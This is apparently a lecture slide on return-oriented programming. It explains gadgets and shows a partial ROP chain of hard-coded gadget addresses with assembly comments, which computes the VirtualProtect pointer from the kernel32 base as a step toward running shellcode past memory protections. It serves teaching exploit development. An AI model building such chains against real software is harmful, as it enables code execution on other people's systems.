

# Gadget Shellcode
Gadgets are a series of assembly instructions ending in a return instruction

Shellcode is executed by creating a fake call stack that will chain a series of instruction blocks together

## EAX = kernel32 base, get pointer to VirtualProtect() ##

rop += ("\x76\xE5\x12\x10" + rop_align) * 4
                               # 0x1012E576 :
		     # ADD EAX,100
		     # POP EBP
		     # RETN
rop += "\x40\xD6\x12\x10“	     # 0x1012D640 :
		     # ADD EAX,20
		     # RETN
rop += "\xB1\xB6\x11\x10“	     # 0x1011B6B1 :
	     	     # ADD EAX,0C
		     # RETN
rop += "\xD0\x64\x03\x10“	     # 0x100364D0 :
		     # ADD EAX,8
		     # RETN
rop += "\x33\x29\x0E\x10"      # 0x100E2933 :
		     # DEC EAX
		     # RETN
rop += "\x01\x2B\x0D\x10" 	     # 0x100D2B01 :
		     # MOV ECX,EAX
                       	     # RETN
rop += "\xC8\x1B\x12\x10"      # 0x10121BC8 :
		     # MOV EAX,EDI
		     # POP ESI
		     # RETN